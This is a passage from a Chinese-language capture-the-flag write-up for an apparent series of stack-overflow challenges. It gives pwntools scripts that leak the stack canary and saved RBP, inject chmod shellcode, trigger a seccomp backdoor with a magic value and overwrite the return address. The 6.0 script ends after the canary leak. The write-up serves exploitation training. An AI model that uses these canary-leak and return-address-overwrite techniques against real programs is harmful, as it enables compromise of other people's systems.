 ```python

chall1_buf = (saved_rbp - 0x10d0)
leak('chall1 buf', chall1_buf)
chall2_buf = chall1_buf - 0xe0
leak('sc addr', chall2_buf)
payload = asm(sc).ljust(0x80, b'a') + p64(val) + p64(canary) + b'a'*8 + p64(chall2_buf)
s(payload)
```

### 5.0

在 4.0 的基础上隔开了 canary 和 Saved RBP，可以用 REPEAT 两轮分两次泄漏。还有一个 seccomp 沙箱，但是可以通过程序中的后门逃逸，只要让栈上的一个值为特定值即可。

```python
# chmod("a", 4)
sc = """
mov al, 0x5a  # chmod
push 0x61     # "a"
mov rdi, rsp  # rdi -> "a" on stack
mov sil, 4    # 4 -> 000 000 100
syscall
"""
val = 0x848FFD3CEC0476D2

payload = b'REPEATaa' + b'a'*0x20
s(payload + b'\x01')
ru(b'\x01')
canary = u64(b'\x00' + r(7))
leak('canary', canary)

payload += b'a'*0x18
s(payload)
ru(payload)
saved_rbp = u64(r(6).ljust(8, b'\x00'))
leak('saved rbp', saved_rbp)

chall1_buf = (saved_rbp - 0xe0)
leak('chall1 buf', chall1_buf)
chall2_buf = chall1_buf - 0xa0
leak('sc addr', chall2_buf)
payload = asm(sc).ljust(0x10, b'a') + p64(val) + b'a'*0x10
payload += p64(canary) + b'a'*0x18 + p64(chall2_buf)
s(payload)
```

### 6.0

在 5.0 的基础上需要把栈上的 seccomp 参数改成需要的系统调用号。

```python
# chmod("a", 4)
sc = """
mov al, 0x5a  # chmod
push 0x61     # "a"
mov rdi, rsp  # rdi -> "a" on stack
mov sil, 4    # 4 -> 000 000 100
syscall
"""

payload = b'REPEATaa' + b'a'*0x80
s(payload)
s(payload + b'\x01')
ru(b'\x01')
canary = u64(b'\x00' + r(7))
leak('canary', canary)
```